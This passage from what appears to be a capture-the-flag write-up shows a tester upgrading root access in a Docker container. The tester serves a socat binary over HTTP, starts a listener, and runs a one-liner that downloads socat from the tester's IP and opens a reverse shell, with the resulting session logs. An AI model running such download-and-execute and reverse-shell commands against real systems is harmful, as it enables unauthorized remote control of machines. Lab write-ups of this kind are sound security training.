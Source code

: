 ```
root
cbc47de301c4
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
[...]
8: eth0@if9: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether 02:42:ac:11:00:04 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.4/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

Anyways, **let's get a stable shell via `socat`**, this makes our live easier:

**Host the `socat` binary:**
```
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:8000/) ...
```

**Setup a `socat` TTY listener:**
```
┌──(root🌸siunam)-[~/…/OpenSource/source/app/app]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2022/09/14 09:49:33 socat[194675] N opening character device "/dev/pts/2" for reading and writing
2022/09/14 09:49:33 socat[194675] N listening on AF=2 0.0.0.0:4444
```

**Upload `socat` binary to the target machine, and trigger the `socat` reverse shell:**
```
/app # wget http://10.10.14.42:8000/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.10.14.42:4444 EXEC:'/bin/sh',pty,stderr,setsid,sigint,sane
```

**Stable shell connection:**
```
[...]
                                                                  2022/09/14 09:56:20 socat[196629] N accepting connection from AF=2 10.10.11.164:49584 on AF=2 10.10.14.41:4444
                                                        2022/09/14 09:56:20 socat[196629] N starting data transfer loop with FDs [5,5] and [7,7]
                        /bin/sh: can't access tty; job control turned off
/app # 
/app # stty rows 22 columns 121
/app # export TERM=xterm-256color
/app # whoami;hostname;id;ip a
root
9e38ef79cc9b
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
[...]
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether 02:42:ac:11:00:03 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.3/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
/app # ^C
/app # 
```
